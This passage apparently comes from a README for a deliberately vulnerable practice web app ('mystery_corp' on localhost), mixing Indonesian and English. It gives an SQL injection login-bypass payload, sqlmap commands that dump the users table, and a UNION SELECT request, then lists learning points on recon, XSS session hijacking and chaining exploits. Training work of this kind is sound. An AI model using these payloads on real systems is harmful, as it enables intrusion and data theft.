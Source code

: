 ### SQL Injection
```bash
# Manual testing
curl -X POST http://localhost:8080/ -d "username=admin' OR '1'='1'-- &password=test&login=Login"

# SQLmap (optional)
sqlmap -u "http://localhost:8080/dashboard.php?search=test" --dbs
sqlmap -u "http://localhost:8080/dashboard.php?search=test" -D mystery_corp --tables
sqlmap -u "http://localhost:8080/dashboard.php?search=test" -D mystery_corp -T users --dump
```

### Web Application Testing
```bash
# Burp Suite
# - Intercept requests
# - Test SQL injection payloads
# - Analyze responses

# Manual testing with curl
curl -X GET "http://localhost:8080/dashboard.php?search=' UNION SELECT 1,2,3,4,5-- "
```

## 🎓 Learning Points

### 1. Reconnaissance adalah Kunci
- Selalu mulai dengan port scanning
- Directory enumeration mengungkap file sensitif
- Information gathering dari source code dan comments

### 2. SQL Injection Techniques
- Authentication bypass dengan OR conditions
- Union-based injection untuk data extraction
- Information schema untuk database enumeration

### 3. XSS Discovery
- Stored XSS lebih berbahaya dari reflected XSS
- Selalu check input fields yang tidak di-sanitize
- XSS bisa digunakan untuk session hijacking

### 4. Privilege Escalation
- Admin access membuka lebih banyak attack surface
- Kombinasi vulnerabilities lebih powerful
- Systematic approach menghasilkan complete compromise

### 5. Methodology
- Follow a systematic approach
- Document semua findings
- Chain exploits untuk maximum impact
